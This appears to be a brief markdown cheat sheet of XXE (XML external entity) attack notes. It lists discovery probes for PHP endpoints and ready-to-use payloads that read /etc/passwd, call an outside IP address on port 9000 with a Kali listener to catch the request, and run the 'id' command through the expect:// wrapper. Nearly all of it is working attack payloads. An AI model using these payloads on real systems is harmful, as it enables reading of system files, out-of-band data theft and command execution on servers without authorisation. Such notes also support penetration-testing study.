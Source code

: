 # XXE

## Discovery
- Find ```xml``` in error of these payloads
  - ```.php?xml=>```
  - ```.php?xml=/>```

## Payloads
- ```<!DOCTYPE foo [<!Entity xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>```
- ```<!DOCTYPE data [<!ENTITY passwd SYSTEM "file:///etc/passwd">]> <data><text>&passwd;</text></data>```
- ```<!DOCTYPE data [<!ENTITY passwd SYSTEM "http://192.255.164.2:9000/helloworld">]> <data><text>&passwd;</text></data>```
  - Use ```python -m SimpleHTTPServer 9000``` to receive the connection log in KALI 
- ```<!Entity xxe SYSTEM "expect://id">]>```
